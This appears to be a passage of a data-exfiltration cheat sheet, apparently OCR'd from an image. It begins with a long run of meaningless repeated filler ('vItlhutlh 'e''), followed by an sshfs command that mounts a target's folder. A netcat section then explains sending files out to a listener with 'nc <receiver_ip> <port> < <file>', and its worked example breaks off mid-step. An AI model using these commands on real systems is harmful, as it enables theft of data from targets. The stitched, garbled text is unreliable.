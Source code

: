 vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e
```bash
sudo apt-get install sshfs
sudo mkdir /mnt/sshfs
sudo sshfs -o allow_other,default_permissions <Target username>@<Target IP address>:<Full path to folder>/ /mnt/sshfs/
```
## NC

### Description

NC (Netcat) is a versatile networking utility that can be used for various purposes, including exfiltration of data. It allows for establishing TCP or UDP connections, making it useful for transferring data between systems.

### Methodology

1. **Establish a listener**: Start a listener on the receiving system using the following command:

   ```
   nc -l -p <port>
   ```

   Replace `<port>` with the desired port number.

2. **Send data**: On the system with the data to be exfiltrated, use the following command to send the data to the listener:

   ```
   nc <receiver_ip> <port> < <file>
   ```

   Replace `<receiver_ip>` with the IP address of the receiving system, `<port>` with the port number used by the listener, and `<file>` with the path to the file containing the data.

3. **Receive data**: On the receiving system, the data will be received and displayed in the terminal where the listener was started.

### Example

1. Start the listener on the receiving system:

   ```
   nc -l -p 1234
   ```

2. Send a file named `data.txt` from the sending system to the listener:
